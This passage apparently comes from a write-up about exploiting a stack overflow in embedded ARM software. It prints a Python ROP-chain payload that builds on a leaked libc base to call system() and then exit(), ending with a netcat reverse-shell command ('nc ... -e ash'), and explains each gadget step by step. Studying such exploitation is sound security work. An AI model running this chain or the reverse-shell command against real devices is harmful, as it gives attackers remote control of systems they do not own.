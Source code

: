 ## Exploiting Stack Overflow

We should now have all the ingredients to pop a shell, there are no stack canaries or anything scary like that (I love embedded). 

### Breakdown

Here is the code that generates an exploit payload:

```
-python
 # Get function addresses we need from libc base
system_libc = libc_base + 0x4b4fc # 0x4b4fc
exit_libc = libc_base + 0x46c30 # 0x46c30

# Do the stack overflow and execute arbitrary command
payload = b'\x41' * 268 # pad until pc overwritten
payload += p32(libc_base + 0x4a5e0) # pc

# | 0x4a5e0 | ldmia sp!,{r3,pc} |
payload += p32(libc_base + 0x313f8) # r3 - copy r2 into r0
payload += p32(libc_base + 0x32c24) # pc

# | 0x32c24 | add r2,sp,#0x3c | blx r3 |

# | 0x313f8 | cpy r0,r2 | ldmia sp!,{r4,pc} |
payload += p32(0xdeadbeef) # r4
payload += p32(system_libc) # pc
payload += b"Aa0Aa1Aa" # padding
payload += p32(libc_base + 0x184f4) # pc

# | 0x184f4 | mov r0,#0x1 | ldmia sp!,{r4,pc} |
payload += p32(0xdeadbeef) # r4
payload += p32(exit_libc) # pc

payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab" # padding
payload += b"nc 192.168.10.20 123 -e ash #" # command to execute as system
```

We start by using our *libc* base to calculate the addresses of the **system()** and **exit()** calls. Next, we pad the input until we reach the first *pc* overwrite which we set to a gadget the loads *r3* and *pc* off of the stack. Our next gadget (which we just put into *pc*) simply puts the *sp* register + *0x3c* (which will be where our command is located) into the *r2* register, and then uses *blx* to branch to the gadget we just put into *r3*. This gadget just copies *r2* into *r0* to get our command string into the correct argument register. It then loads *r4* and *pc* off of the stack, we can ignore *r4*, and set the *pc* to be the address of **system()** as this will use our command as its first argument. 

**system()** will execute and we can regain control of execution further down the stack, where we put the value *1* into *r0* and call **exit()** to exit the program cleanly (we've executed **system()** at this point so we no longer care about this program). Finally at the end of the exploit, we place some padding to get our command string in the correct position, and then append the command string itself.
